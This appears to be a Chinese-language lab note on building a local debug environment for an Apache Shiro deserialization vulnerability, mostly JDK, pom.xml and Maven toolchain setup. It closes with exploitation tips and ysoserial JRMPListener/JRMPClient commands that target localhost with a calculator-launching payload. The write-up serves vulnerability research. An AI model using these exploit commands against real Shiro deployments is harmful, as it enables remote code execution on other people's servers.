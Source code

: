 mac上的jdk1.6 java官网上没有，需要到apple官网上下载[https://support.apple.com/kb/DL1572?locale=zh_CN](https://support.apple.com/kb/DL1572?locale=zh_CN)

同时推荐一个java多版本管理工具[https://github.com/jenv/jenv](https://github.com/jenv/jenv)。

其次在动态调试的时候，需要对`shiro/samples/web/pom.xml`进行一些修改：

```xml
<!--  添加 -->
<properties>
    <maven.compiler.source>1.8</maven.compiler.source>
    <maven.compiler.target>1.8</maven.compiler.target>
</properties>

<!--  修改 -->
<dependency>
    <groupId>javax.servlet</groupId>
    <artifactId>jstl</artifactId>
    <!--  这里需要将jstl设置为1.2，否则会报错 -->
    <version>1.2</version> 
    <scope>runtime</scope>
</dependency>
```

之后将项目导入idea，配置tomcat local server就可以了。

在编译的时候也会报错，需要在`~/.m2/`新建`toolchains.xml`，内容如下：

```xml
<?xml version="1.0" encoding="UTF8"?>
<toolchains>
  <toolchain>
    <type>jdk</type>
    <provides>
      <version>1.6</version>
      <vendor>sun</vendor>
    </provides>
    <configuration>
       <jdkHome>/Library/Java/JavaVirtualMachines/1.6.0.jdk/Contents/Home</jdkHome>
    </configuration>
  </toolchain>
</toolchains>
```

最后是漏洞利用的一些坑点：

shiro自带的commons-collections的版本是3.2.1，直接使用ysoserial中的payload会报错，原因是：

> Shiro resovleClass使用的是ClassLoader.loadClass()而非Class.forName()，而ClassLoader.loadClass不支持装载数组类型的class。

解决这种问题方是使用JRMP，利用链中没有使用数组，但是我本地测试没有成功。

```
java -cp ysoserial-master-30099844c6-1.jar ysoserial.exploit.JRMPListener 9527 CommonsCollections5 "open -a calculator"

java -jar ysoserial-master-30099844c6-1.jar JRMPClient 127.0.0.1:9527
```
